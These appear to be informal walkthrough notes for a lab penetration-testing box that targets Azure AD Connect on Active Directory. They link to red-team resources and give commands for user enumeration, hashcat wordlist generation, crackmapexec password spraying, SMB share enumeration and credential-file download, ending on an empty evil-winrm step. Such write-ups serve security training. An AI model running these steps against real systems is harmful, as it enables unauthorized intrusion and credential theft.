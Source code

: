 ## Resources
- [Azure AD Connect for Red Teamers - XPN InfoSec Blog (xpnsec.com)](https://blog.xpnsec.com/azuread-connect-for-redteam/)
- [Azure AD Connect Database Exploit (Priv Esc) | VbScrub](https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/)
- [Updating adconnectdump - a journey into DPAPI - dirkjanm.io](https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/)
- [TR19-Im in your cloud.pdf (dirkjanm.io)](https://dirkjanm.io/assets/raw/TR19-Im%20in%20your%20cloud.pdf)
- [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory (youtube.com)](https://www.youtube.com/watch?v=JEIR5oGCwdg)



Walkthrough
- the thing with Azure connect is that microsoft has to store the database some where!!
- if we were doing any type of ticket attack, like forging ticket, we may want to make sure our clocks are synced (use of the clock skew in nmap)
- we can query dns
```
nslookup
server 10.10.10.17
127.0.0.1 #lookup localhost
10.10.10.172 # lookup its IP ((its meanr to leak the hostname)
monteverde #look
```
- after we run `enumdomusers'
- we can copy the users and paste in a file in vim, then we can do `6x` to delete the first 6 characters then go to the end of each word and do `d$`
- after editing a custom wordlist like adding after including possible usernames, Summer, winter, spring to the list, we can do sth with hashcat
```shell
hashcat --force --stdout -r /usr/share/hashcat/rules/best64.rule password.lst > password2.lst
```
- then we can run crackmapexec
```
crackmapexec smb 10.10.10.172 -u users.list -p passwords.lst
```
- we can check for the password policy before this `--pass-pol` and see the Account Lockout Threshold, if its none
- after you get a login credentials without admin privileges, we can do winrm to see if we do, or we just enumerate shares like
```shell
smbmap -u SABatchJobs -p SABatchJobs -H 10.10.10.172
```
we could try null using
```shell
smbmap -u '' -H 10.10.10.172
```
or guest
```
smbclient -U 'guest' -L //10.10.10.172
```
or do anonymous
- we can recursively list the content of the directories using
```shell
smbmap -u SABatchJobs -p SABatchJobs -H 10.10.10.172 -R --exclude SYSVOL IPC$

```
mount it is better
- then we can see the azure.xml file in the mhope users directory
- we can download it using
```
smbmap -u SABatchJobs -p SABatchJobs -H 10.10.10.172 --download users$/mhope/azure.xml
```
- then evilwinrm
```
```